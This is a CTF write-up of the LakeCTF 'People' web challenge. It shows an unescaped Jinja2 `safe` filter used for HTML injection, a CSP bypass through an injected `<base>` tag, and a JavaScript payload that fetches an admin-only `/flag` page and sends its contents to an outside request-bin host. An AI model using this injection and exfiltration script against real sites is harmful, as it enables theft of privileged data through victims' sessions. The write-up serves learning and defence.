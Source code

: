 # LakeCTF - People Challenge Writeup (Web)

# Part 0: Reconnaissance
We receive a link to the challenge environment and the source code + Docker files for the backend. 
The target webpage has only a few very simple functionalities: register, login, edit profile and report profile.
![Registering page](/Assets/Pasted%20image%2020220926184329.png)

Profile page
![Profile page](/Assets/Pasted%20image%2020220926184513.png)

The most interesting functionality of course is "Report profile", because when clicking it, the user is displayed a text saying "Thank you, an admin will review your report shortly.", hinting that there is a bot in the backend, that we somehow have to abuse. 

The flag in this challenge is an environment variable that's only admin accessible on the path `/flag`
```Python
@main.route('/flag')
def flag():
    if request.cookies.get('admin_token') == admin_token:
        return os.getenv('FLAG') or 'flag{flag_not_set}'
    else:
        abort(403)
```

# Part 1: Strategizing
The source code indeed reveals that there is a bot with an admin cookie that will shortly visit your profile page.
```Python
from pyppeteer import launch
import asyncio

async def visit(user_id, admin_token):
    url = f'http://web:8080/profile/{user_id}'
    print("Visiting", url)
    browser = await launch({'args': ['--no-sandbox', '--disable-setuid-sandbox']})
    page = await browser.newPage()
    await page.setCookie({'name': 'admin_token', 'value': admin_token, 'url': 'http://web:8080', 'httpOnly': True, 'sameSite': 'Strict'})
    await page.goto(url)
    await asyncio.sleep(3)
    await browser.close()
```

My first strategy idea of leaking the bot's `admin_token` cookie proved to be false, because the cookie has the `httpOnly` flag set and this prevents if from being accessed by JavaScript.  

My second strategy idea is to implant an XSS to the user's profile that makes a request to `/flag` and then sends the data over to us. The logic seems sound, so on the execution.

# Part 2: Injection search
To implant out malicious JavaScript we needed to find an input field that was unsanitized. Problem is that Flask (the web framework in this challenge) by default automatically escapes HTML from inputs when it renders templates.
For a while we were looking at the user's biography input section, since it supported Markdown input and used the Marked JS library for parsing that input. Though it is sanitized using the DOMPurify library, similar configurations have in the past been exploitable.
```JavaScript
  var markdown = document.querySelectorAll(".markdown");
  for (var i = 0; i < markdown.length; i++) {
	var html = marked.parse(markdown[i].innerHTML, {
	  breaks: true
	});
	html = DOMPurify.sanitize(html, { USE_PROFILES: { html: true } });
	markdown[i].innerHTML = html;
  }```

We were however unable to find an XSS this way. After some searching one of us went to check what the `safe` option in the template input meant.
```JavaScript
{% set description = '%s at %s' % (user['title'], user['lab']) %}
{% block title %}{{user['fullname']}} | {{description|safe}}{% endblock %}
```

It turned out that `safe` unintuitively means "trust this input, it's safe, don't escape it". This was well phrased in this [StackOverflow thread](https://stackoverflow.com/questions/48975383/why-to-use-safe-in-jinja2-python). We therefore had our injection point! Either the `title` or the `lab` value from the user's profile. 

# Part 3: Exploitation
We then quickly rushed to use this injection point for our JavaScript and indeed we were able to inject the payload `<script>alert(1)</script>` but disappointingly, the content of the script wasn't executed. Turned out that we were being blocked by the site's CSP and required a nonce value to execute our script.

![CSP](/Assets/Pasted%20image%2020220928134157.png)

Other scripts had their nonce injected.
```HTML
    <script src="/static/js/marked.min.js" nonce="{{ csp_nonce() }}"></script>
    <script src="/static/js/purify.min.js" nonce="{{ csp_nonce() }}"></script>
```

After searching for some [HTML scriptless injection](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection) searching I came across the possibility of setting our own `<base>` tag. Since both scripts were loaded using a relative path, we could serve them on our own web server and by setting the `<base>` tag to out web server have the bot query our scripts when visiting our profile.

We first used a request bin as a proof of concept and registered a new user with our payload `</title><base href="https://enz1qwuixexc.x.pipedream.net/">` and it worked!
![](/Assets/Pasted%20image%2020220928135615.png)

![](/Assets/Pasted%20image%2020220928144055.png)

As our PoC worked, we then just made a short script that fetches the content of `/flag`, uploaded it to our web server as `marked.min.js` and reported our profile.
```JavaScript
function reqListener () {
  fetch("https://enj1mevg4ope.x.pipedream.net/?"+this.responseText);
}
const req = new XMLHttpRequest();
req.addEventListener("load", reqListener);
req.open("GET", "http://web:8080/flag");
req.send();
```
This nicely returned us the flag `EPFL{Th1s_C5P_byp4ss_1s_b4sed}`.

# Part 4: Take-aways
There are some security related take-aways from this challenge:
1. CTF solving wise - don't assume that when an option specifies `safe` it is actually "safe". Recheck what each parameter/flag means if you don't know.
2. As a developer - there are ways around CSP-s so it is important to use full references for scripts instead of relative references.